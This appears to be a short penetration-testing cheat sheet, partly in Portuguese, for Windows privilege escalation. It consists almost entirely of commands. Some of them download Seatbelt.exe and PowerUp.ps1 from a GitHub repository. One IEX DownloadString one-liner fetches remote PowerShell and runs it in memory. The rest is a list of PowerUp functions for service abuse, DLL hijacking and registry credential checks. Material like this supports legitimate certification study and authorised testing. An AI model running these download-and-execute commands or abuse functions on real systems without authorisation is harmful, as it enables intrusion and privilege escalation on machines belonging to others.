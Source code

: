 # SEATBELT (https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/seatbelt)
## TECHNIQUES
##### SEATBELT - DOWNLOAD E EXECUTE ZIP VIA POWERSHELL
```
curl https://github.com/n0ts0cial/oscp/raw/main/Seatbelt.exe -Outfile Seatbelt.exe
Seatbelt.exe -group=all
.\Seatbelt.exe -group=all
```
# PRIVILEGE ESCALATION WINDOWS
## [POWERUP](https://blog.certcube.com/powerup-cheatsheet/)
##### POWERUP DOWNLOAD
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/PowerUp.ps1")
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/PowerUp.ps1  -Outfile PowerUp.ps1
import-module .\PowerUp.ps1
```
##### POWERUP - CHECAR TUDO
```
invoke-allchecks
```
##### POWERUP - ACHAR UNQUOTED SERVICE
```
Get-Serviceunquoted -Verbose
```
##### POWERUP - ACHAR SERVIÇOS ONDE O USUARIO ATUAL PODE ALTERAR O BINARIO OU MUDAR OS ARGUMENTOS
```
Get-ModifiableServiceFile -Verbose
```
##### POWERUP - COMANDOS
```
SERVICE ENUMERATION:

Get-ServiceUnquoted
Get-ModifiableServiceFile
Get-ModifiableService
Get-ServiceDetail

SERVICE ABUSE:
Invoke-ServiceAbuse
Write-ServiceBinary
Install-ServiceBinary
Restore-ServiceBinary

DLL HIJACKING:

Find-ProcessDLLHijack
Find-PathDLLHijack
Write-HijackDll

REGISTRY CHECKS:

Get-RegistryAlwaysInstallElevated
Get-RegistryAutoLogon
Get-ModifiableRegistryAutoRun
```